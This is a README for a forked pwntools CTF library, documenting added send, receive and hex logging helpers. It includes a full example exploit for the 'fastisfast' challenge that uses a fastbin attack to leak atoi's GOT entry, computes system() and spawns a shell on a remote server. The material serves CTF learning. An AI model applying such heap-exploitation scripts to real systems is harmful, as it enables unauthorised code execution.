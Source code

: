 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):
        raw_input('\33[1;31;40m[+] Debug: Attach GDB.'),

    def Log(self, String):
        print '\33[1;31;40m[+] '+ String,

    def LogRecvUntil(self, String):
	Data = self.recvuntil(String)
	print '\33[0m\b' + Data,
	return Data

    def LogRecvNoBlocking(self):
        print '\33[0m\b'+ self.recv(),

    def LogRecv(self, Len):
        Data = self.recv(Len)
        print '\33[0m\b' + Data,
        return Data

    def LogSend(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)

    def LogSendAndRecv(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)
        print '\33[0m\b' + self.recv(),

    def LogHex(self,Data):
        i = 0
        display = ''
        for byte in Data:
            display = display + str(hex(packing.unpack(byte, 8)))+ ' '
            if((i + 1) % 4 == 0):
                display = display + '| '
            if((i + 1) % 16 == 0):
                self.Log(display)
                display = ''
            i = i + 1
        if((i % 16) != 0):
            self.Log(display)
```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```

![example](./example.png)

